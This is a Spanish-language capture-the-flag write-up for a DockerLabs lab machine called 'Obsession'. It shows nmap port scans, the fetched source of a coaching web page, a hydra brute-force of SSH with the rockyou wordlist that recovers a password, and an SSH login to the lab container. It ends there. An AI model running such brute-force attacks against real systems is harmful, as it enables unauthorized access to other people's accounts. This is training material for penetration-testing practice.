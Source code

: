 # MAQUINA OBSESSION

## INICION ESCANEO

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 21:47 CEST
Initiating ARP Ping Scan at 21:47
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 21:47, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:47
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 21:47, 0.54s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-08-31 21:47:08 CEST for 0s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 21:49 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.05 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 21:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 21:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Russoski Coaching
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.59 seconds

## ANALISIS DE CODIGO DE LA PAGINA MONTADA SOBRE EL PUERTO 80

>curl -X GET http://172.17.0.2 | js-beautify

< !DOCTYPE html >
    <
    html lang = "en" >

    <
    head >
    <
    meta charset = "utf-8" >
    <
    title > Russoski Coaching < /title> <
    link rel = "stylesheet"
href = "style.css" >
    <
    /head>

    <
    body >
    <
    section class = "full" >
    <
    div class = "full-inner" >
    <
    div class = "content" >
    <
    h1 > The Aesthetic Dream < /h1> <
    a href = "#formulario" > TRANSFORMA TU FÍSICO YA MISMO < /a> <
    /div> <
    /div> <
    /section> <
    p > Bienvenido.Soy Informático, pero sobre todo, soy < strong > entrenador personal < /strong> con más de 5
años de experiencia en el entrenamiento con cargas y nutrición, con < strong > certificado de
profesionalidad < /strong> como Monitor de Musculación y Fitness. Para conocerme un poco más, <a href="https:/ / russ0ski.github.io / MyHackingRoad / "
target = "_blank" > entra aquí < /a>.</p >
    <
    p > Estoy dispuesto a utilizar todos mis conocimientos con el objetivo de < strong > cambiar tu físico para
bien < /strong>. ¿Estás dispuesto a conseguir tu mejor versión y vivir la vida que siempre quisiste?. <
    strong > Sólo tienes que dar el paso < /strong> y dejarme asesorarte en tu camino hacía la <
    strong > estética < /strong>. <
    /p> <
    p > Aprovecha mi nueva oferta por < strong > Black Friday < /strong> y obtén un 45% de descuento durante los próximos 3
meses en tus planes de nutrición y entrenamiento, sólo disponible por < strong > tiempo limitado < /strong>.
Atrévete, no te arrepentirás < strong > cuando te mires al espejo y sonrías < /strong>.</p >
    <
    section class = "full4" >
    <
    div class = "full-inner4" >
    <
    div class = "content5" >
    <
    ul >
    <
    li >
    Resultados 100 % garantizados, si no estás conforme te devolvemos parte del dinero. <
    /li> <
    li >
    La primera semana de prueba es gratuita, sólo tienes que rellenar nuestro formulario. <
    /li> <
    li >
    Asesoramiento online y también presencial(sólo aplicable si eres mujer). <
    /li> <
    li >
    Me adapto a tu nivel físico para brindarte el mejor servicio, sin riesgo de lesiones. <
    /li> <
    li >
    Me adapto a tu economía para ofrecer el mejor plan de nutrición que puedas permitirte. <
    /li> <
    /ul> <
    /div>          <
    /div>         <! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente --> <
    /section> <
    section class = "full3" >
    <
    div class = "full-inner3" >
    <
    div class = "content3" >
    <
    fieldset >
    <
    a id = "formulario" >
    <
    h3 > Consigue tu asesoría personalizada: < /h3> <
    /a> <
    form action = "http://172.17.0.2/.formrellyrespexit.html"
method = "get" >
    <
    label >
    Nombre:
    <
    input name = "nombre"
type = "text"
placeholder = "Introduce tu nombre" / >
    <
    /label> <
    br >
    <
    br >
    <
    label >
    Apellido:
    <
    input name = "apellido"
type = "text"
placeholder = "Introduce tus apellidos" / >
    <
    /label> <
    br >
    <
    br >
    <
    label >
    Teléfono:
    <
    input name = "telefono"
type = "tel"
placeholder = "Introduce tu número" / >
    <
    /label> <
    br >
    <
    br >
    <
    label >
    Email:
    <
    input name = "email"
type = "email"
placeholder = "Introduce tu correo" / >
    <
    /label> <
    br >
    <
    br >
    <
    label
for = "somatotipo" > Somatotipo: < /label> <
    select name = "somatotipo" >
    <
    option > Hectomorfo < /option> <
    option > Mesomorfo < /option> <
    option > Endomorfo < /option> <
    /select> <
    br >
    <
    br >
    <
    input name = "llamada a la accion"
type = "submit"
value = "CAMBIAR MI VIDA A MEJOR AHORA" / >
    <
    input name = "campaign"
type = "hidden"
value = "BLACKFRIDAY" / >
    <
    /form> <
    br >
    <
    /fieldset> <
    /div> <
    /div> <
    /section> <
    footer >
    <
    section class = "full2" >
    <
    div class = "full-inner2" >
    <
    div class = "content4" >
    <
    br >
    <
    h4 > Copyright Russoski© 2024 < /h4> <
    a href = "mailto:russoski@dockerlabs.es"
target = "_blank" > russoski @dockerlabs.es < /a> <
    br >
    <
    br >
    <
    br >
    <
    /div> <
    /div> <
    /section> <
    /footer> <
    /body>

    <
    /html><

>EL USUARIO "RUSSOSKI" ESTA COMO USUARIO EN VARIAS PARTES DE LA MAQUINA

## INTENTO DE INGRESO POR EL PUERTO 22 POR FUERZA BRUTA

>hydra -l russoski -P /home/mateo/Descargas/rockyou.txt ssh://172.17.0.2 -s 22 -t 4


Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-31 22:06:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-31 22:10:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-31 22:11:07
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-31 22:11:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-31 22:14:53
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 65.00 tries/min, 65 tries in 00:01h, 14344333 to do in 3678:03h, 4 active
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-31 22:16:42

- LOGIN DE SSH ENCONTRADO "russoski": 
- PASS DE SSH ENCONTRADA "iloveme"

## CONECTION A LA MAQUINA VICTIMA POR SSH 

>ssh russoski@172.17.0.2 -p 22

russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

- Documentation:  https://help.ubuntu.com
- Management:     https://landscape.canonical.com
- Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Aug 31 21:38:28 2025 from 172.17.0.1
russoski@836e293003f5:~$ ls
Documentos  Proyectos
russoski@836e293003f5:~$ cd Proyectos/
russoski@836e293003f5:~/Proyectos$ ls
README.md  Strong-Credentials.py
russoski@836e293003f5:~/Proyectos$ python3 Strong-Credentials.py 
-> Tu Contraseña generada es: nADIdPm¿f[q]]4g3GRNv
